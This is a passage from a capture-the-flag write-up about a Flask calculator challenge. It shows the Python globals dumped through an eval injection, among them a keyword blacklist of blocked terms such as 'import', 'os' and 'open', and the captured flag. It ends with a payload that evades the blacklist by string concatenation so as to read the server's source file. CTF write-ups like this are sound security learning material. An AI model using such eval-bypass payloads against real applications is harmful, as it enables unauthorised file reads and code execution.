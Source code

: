 ```
	    'InterruptedError': <class 'InterruptedError'>,
	    'PermissionError': <class 'PermissionError'>,
	    'ProcessLookupError': <class 'ProcessLookupError'>,
	    'TimeoutError': <class 'TimeoutError'>,
	    'open': <built-in function open>,
	    'quit': Use quit() or Ctrl-D (i.e. EOF) to exit,
	    'exit': Use exit() or Ctrl-D (i.e. EOF) to exit,
	    'copyright': Copyright (c) 2001-2020 Python Software Foundation. All Rights Reserved. Copyright (c) 2000 BeOpen.com. All Rights Reserved. Copyright (c) 1995-2001 Corporation for National Research Initiatives. All Rights Reserved. Copyright (c) 1991-1995 Stichting Mathematisch Centrum, Amsterdam. All Rights Reserved.,
	    'credits': Thanks to CWI, CNRI, BeOpen.com, Zope Corporation and a cast of thousands for supporting Python development. See www.python.org for more information.,
	    'license': Type license() to see the full license text,
	    'help': Type help() for interactive help, or help(object) for help about object.
    },
    'FlaskForm': <class 'flask_wtf.form.FlaskForm'>,
    'Flask': <class 'flask.app.Flask'>,
    'render_template': <function render_template at 0x7fa1196460d0>,
    'request': <Request 'https://chal.duc.tf:30302/' [POST]>,
    'Form': <class 'wtforms.form.Form'>,
    'validators': <module 'wtforms.validators' from '/usr/local/lib/python3.8/site-packages/wtforms/validators.py'>,
    'StringField': <class 'wtforms.fields.core.StringField'>,
    'SubmitField': <class 'wtforms.fields.simple.SubmitField'>,
    'app': <Flask 'main'>,
    'blacklist': [
	    'import',
	    'os',
	    'sys',
	    ';',
	    'print',
	    '__import__',
	    'SECRET',
	    'KEY',
	    'app',
	    'open',
	    'globals'
    ],
    'maybe_not_maybe_this': 'HYPA HYPA',
    'maybe_this_maybe_not': 'DUCTF{3v4L_1s_D4ng3r0u5}',
    'CalculatorInput': <class 'main.CalculatorInput'>,
    'mainpage': <function mainpage at 0x7fa11a7b9040>
}
```

From all this, we can highlight a couple things - the flag in the `maybe_this_maybe_not` variable, and the blacklist for the program's input in the `blacklist` variable.
After submitting the flag I took to leaking the program's source code, just for the heck of it (via `eval('o'+'pen(__file__).read()')`):
